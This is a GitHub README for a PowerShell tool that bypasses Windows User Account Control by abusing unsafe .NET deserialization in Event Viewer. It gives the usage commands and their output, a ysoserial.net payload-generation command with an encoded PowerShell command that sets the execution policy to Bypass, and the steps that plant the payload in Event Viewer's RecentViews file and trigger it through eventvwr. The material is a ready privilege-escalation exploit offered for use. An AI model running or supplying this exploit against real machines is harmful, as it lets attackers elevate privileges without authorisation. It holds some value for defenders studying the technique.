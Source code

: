 # EventViewer-UACBypass

- RCE through Unsafe .Net Deserialization in Windows Event Viewer which leads to UAC bypass.
- Full credits to [Orange Tsai](https://twitter.com/orange_8361)
---
### Usage
```ps1
PS C:\Windows\Tasks> Import-Module .\Invoke-EventViewer.ps1

PS C:\Windows\Tasks> Invoke-EventViewer 
[-] Usage: Invoke-EventViewer commandhere
Example: Invoke-EventViewer cmd.exe

PS C:\Windows\Tasks> Invoke-EventViewer cmd.exe
[+] Running
[1] Crafting Payload
[2] Writing Payload
[+] EventViewer Folder exists
[3] Finally, invoking eventvwr
```
---
### Working
i) First, the script adds commands to be run to the file `C:\Windows\Tasks\EventViewerRCE.ps1`
- `Stop-Process -name mmc*` : Is used to close Microsoft Management Console.
- After that the command to be executed is added.


ii) Then it crafts payload which runs `C:\Windows\Tasks\EventViewerRCE.ps1` script. The base64 payload was generated using [ysoserial.net](https://github.com/pwntester/ysoserial.net) :
```ps1
ysoserial.exe -o base64 -f BinaryFormatter -g DataSet -c "powershell.exe -nop -e UwBlAHQALQBFAHgAZQBjAHUAdABpAG8AbgBQAG8AbABpAGMAeQAgAEIAeQBwAGEAcwBzACAALQBTAGMAbwBwAGUAIABDAHUAcgByAGUAbgB0AFUAcwBlAHIAOwAgAEMAOgBcAFcAaQBuAGQAbwB3AHMAXABUAGEAcwBrAHMAXABFAHYAZQBuAHQAVgBpAGUAdwBlAHIAUgBDAEUALgBwAHMAMQA="
```
- The base64 output from ysoserial.net is decoded and stored in `C:\Windows\Tasks\p4yl0ad`
- The powershell encoded command decodes to :
```
Set-ExecutionPolicy Bypass -Scope CurrentUser; C:\Windows\Tasks\EventViewerRCE.ps1
```

iii) When `WriteFile` function is executed, it checks if the `Event Viewer` folder exists in AppData and it it doesn't then we create the folder. Finally storing our base64 decoded payload in `RecentViews` file under this folder.

iv) In the end, `eventvwr` is executed which then executes our payload.

---

### Reference
- https://twitter.com/orange_8361/status/1518970259868626944
